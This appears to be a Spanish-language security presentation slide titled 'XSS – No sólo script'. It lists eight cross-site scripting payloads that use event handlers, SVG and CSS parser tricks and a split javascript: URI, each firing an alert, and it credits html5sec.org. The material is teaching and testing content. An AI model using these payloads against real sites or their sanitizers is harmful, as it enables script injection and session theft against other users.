

# XSS – No sólo script

| <video onerror="alert(1)"><source></source></video> |
| --- |
| <link rel="import" href="test.svg" /> |
| <div onfocus="alert(1)" contenteditable tabindex="0" id="xss"></div> |
| <table background="javascript:alert(1)"></table> |
| <svg> <![CDATA[><image xlink:href="]]> <img src=xx:x onerror=alert(2)//"> </svg> |
| <style><img src="</style><img src=x onerror=alert(1)//"> |
| <img[a][b]src=x[d]onerror[c]=[e]"alert(1)"> |
| <a href="[a]java[b]script[c]:alert(1)">XXX</a> |

http://html5sec.org